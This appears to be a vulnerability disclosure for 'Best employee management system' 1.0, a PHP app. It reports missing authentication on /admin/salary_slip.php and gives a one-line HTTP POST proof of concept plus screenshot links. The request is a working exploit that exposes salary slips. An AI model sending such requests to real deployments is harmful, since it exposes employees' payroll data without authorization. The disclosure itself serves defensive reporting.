 ### Exploit Title: Best employee management system - unauthorized access
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/salary_slip.php unauthorized access 

### unauthorized access POC #1

```
POST /admin/salary_slip.php HTTP/1.1
Host: 127.0.0.1:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded

id=1

```

### unauthorized access
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739271518445.jpg "Best employee management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739271512755.jpg "Best employee management system")

